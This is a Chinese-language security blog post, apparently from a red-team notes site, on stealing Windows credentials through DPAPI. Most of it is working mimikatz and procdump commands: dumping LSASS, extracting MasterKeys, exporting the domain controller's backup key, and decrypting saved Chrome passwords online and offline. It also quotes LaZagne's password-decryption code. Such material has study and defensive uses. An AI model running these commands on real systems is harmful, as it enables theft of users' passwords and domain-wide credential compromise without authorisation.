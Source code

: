 ```yaml
---
title: DPAPI
date: 2019-12-31 23:59:59 +0800
categories: [域安全, TA0006凭据访问]
tags: [DPAPI, mimikatz, TA0006凭据访问]     # TAG names should always be lowercase
typora-root-url: ..
---
```




**参考:**

[How to hack a Windows password](https://miloserdov.org/?p=4129)

[How to decrypt stored Windows passwords using mimikatz and DAPA](https://miloserdov.org/?p=4205)

[渗透技巧-离线导出Chrome浏览器中保存的密码](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E7%A6%BB%E7%BA%BF%E5%AF%BC%E5%87%BAChrome%E6%B5%8F%E8%A7%88%E5%99%A8%E4%B8%AD%E4%BF%9D%E5%AD%98%E7%9A%84%E5%AF%86%E7%A0%81/)

[渗透技巧-利用Masterkey离线导出Chrome浏览器中保存的密码](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E5%88%A9%E7%94%A8Masterkey%E7%A6%BB%E7%BA%BF%E5%AF%BC%E5%87%BAChrome%E6%B5%8F%E8%A7%88%E5%99%A8%E4%B8%AD%E4%BF%9D%E5%AD%98%E7%9A%84%E5%AF%86%E7%A0%81/)

[Operational Guidance for Offensive User DPAPI Abuse](https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/)

## DPAPI简介

DPAPI全称`Data Protection Application Programming Interface`，是Windows提供的用于数据保护的一套接口，常见应用如下:

- Credential Manager
- Windows Vault
- IE browser passwords
- Passwords for connecting to Wi-Fi networks
- Certifications
- VPN passwords
- SSH keys
- Google Chrome browser passwords
- Google Talk, Skype, Dropbox, iCloud, Safari credentials

加密解密过程全透明，只要调用CryptProtectData和CryptUnprotectData即可。由于解密需要masterkey，所以一般情况下只能在本机解密，不能离线。



**DPAPI blob：**

待解密的密文，guidMasterKey字段描述了需要哪个MasterKey File。

```
dpapi::protect /data:"Test string to encrypt" /out:crypted.txt
dpapi::blob /in:crypted.txt /unprotect /masterkey:MASTERKEY
```

![image-20201024225225835](/assets/img/image-20201024225225835.png)



**MasterKEY**

64字节，用于解密DPAPI blob

通过用户登录密码、SID和16字节随机数加密后保存在Master Key file中



**MasterKey File**

位于%APPDATA%\Microsoft\Protect\%SID%，属于系统隐藏文件，需要如下设置才能看到；为了安全起见，系统每隔90天会自动生成一个新的Master Key(旧的不会删除)

![image-20201024230153682](/assets/img/image-20201024230153682.png)



```
dpapi::masterkey /in:ff610110-ff14-4275-8ef6-e6aa79ca25f4
```

使用以上命令只可以解析MasterKey File，还需要用户登录密码和SID才能解密出MasterKey

```
dpapi::masterkey /in:ff610110-ff14-4275-8ef6-e6aa79ca25f4 /password:"password" /sid:"S-1-5-21-1122623846-1054905608-851323858-1002"
```



## 获取MasterKey

### 在线Dump 当前登录所有用户MasterKey

mimikatz访问Lsass，获取本机当前登录用户的MasterKey

```
privilege::debug
sekurlsa::dpapi
```

从lsass.dmp中也可以得到MasterKey

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp
sekurlsa::minidump "PATH\TO\lsass.dmp"
sekurlsa::dpapi
```



![image-20201118184331974](/assets/img/image-20201118184331974.png)



### 使用明文密码获取MasterKey

```
dpapi::masterkey /in:"C:\Users\win10\AppData\Roaming\Microsoft\Protect\S-1-5-21-2475887593-94489213-2292866110-1103\1781cbd4-923c-4f2e-9d6c-1f4dce9ba8c2" /password:"Test1234" /sid:"S-1-5-21-2475887593-94489213-2292866110-1103" /protected

dpapi::masterkey /in:"C:\Users\win10_2\AppData\Roaming\Microsoft\Protect\S-1-5-21-2475887593-94489213-2292866110-1105\c5268b2b-a834-4cee-853c-dc187834234c" /protected /password:"Test1234" /sid:"S-1-5-21-2475887593-94489213-2292866110-1105"
```



### 请求DC解密获取MasterKey

只能获取当前用户的

Since we are in a machine that is joined in a domain let’s take advantage of MS-BKRP (BackupKey Remote Protocol) and ask the domain controller to decrypt it for us using the “/rpc” switch in “Mimikatz”:

```
dpapi::masterkey /in:"C:\Users\win10\AppData\Roaming\Microsoft\Protect\S-1-5-21-2475887593-94489213-2292866110-1103\1781cbd4-923c-4f2e-9d6c-1f4dce9ba8c2" /rpc
```



### 从DC导出.pvk文件，解密任意域用户MasterKey

只有域管理员才有权限执行此操作

```
lsadump::backupkeys /system:"ringdc-pc.ring2.com" /export
```

![image-20201118203528068](/assets/img/image-20201118203528068.png)

```
dpapi::masterkey /in:a85b343b-6359-48e1-b89e-3616d239c809 /pvk:ntds_capi_0_0a40e56c-aae4-4c77-b72c-a07212b898b2.keyx.rsa.pvk
```

![image-20201118204117645](/assets/img/image-20201118204117645.png)



## MasterKey解密Chrome密码

DB文件: C:\Users\DELL\AppData\Local\Google\Chrome\User Data\Default\Login Data

1. 它是一个sqlite数据库文件，存储了url、账号、加密后的密码；
2. 密码使用Windows API [CryptProtectData()](https://docs.microsoft.com/en-us/windows/win32/api/dpapi/nf-dpapi-cryptprotectdata)加密，对应解密函数为[CryptUnprotectData()](https://docs.microsoft.com/en-us/windows/win32/api/dpapi/nf-dpapi-cryptunprotectdata)
   1. 解密需要用户凭据，加密时的设置(CRYPTPROTECT_LOCAL_MACHINE flag)决定了谁可以解密数据，一般情况下是设置加密的用户才可以解密数据。
   2. 通常只能在加密数据的计算机上进行解密，但如果一个用户有Roaming profile则可以解密其他机器上的Chrome Login Data文件。

使用sqlitestudio可以查看DB中数据，chrome打开是DB文件不能访问，可以先拷贝一份。

![image-20201024223938962](/assets/img/image-20201024223938962.png)



以LaZagne Project中的解密实现为例：

LaZagne-2.4.2\Windows\lazagne\softwares\browsers\chromium_based.py中_export_credentials函数

```
        try:
            conn = sqlite3.connect(db_path)
            cursor = conn.cursor()
            cursor.execute(self.database_query)
        except Exception as e:
            self.debug(str(e))
            return credentials

        for url, login, password in cursor.fetchall():
            try:
                # Decrypt the Password
                password = Win32CryptUnprotectData(password, is_current_user=constant.is_current_user, user_dpapi=constant.user_dpapi)
                if not url and not login and not password:
                    continue
                    
                credentials.append((url, login, password))
            except Exception:
                self.debug(traceback.format_exc())

        conn.close()
```

mimikatz也支持在线Dump Chrome密码

```
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect
```



如果有MasterKey, 可以离线导出Chrome密码

```
dpapi::chrome /in:"PATH\TO\Login Data" /unprotect /masterkey:MASTERKEY
```



## mimikatz操作blob data



如果拿到了masterkey，mimikatz会把它缓存下来，后面不指定/masterkey:也可以

```
dpapi::cache
dpapi::cache /save /file:cache.bin
dpapi::cache /load /file:cache.bin
```


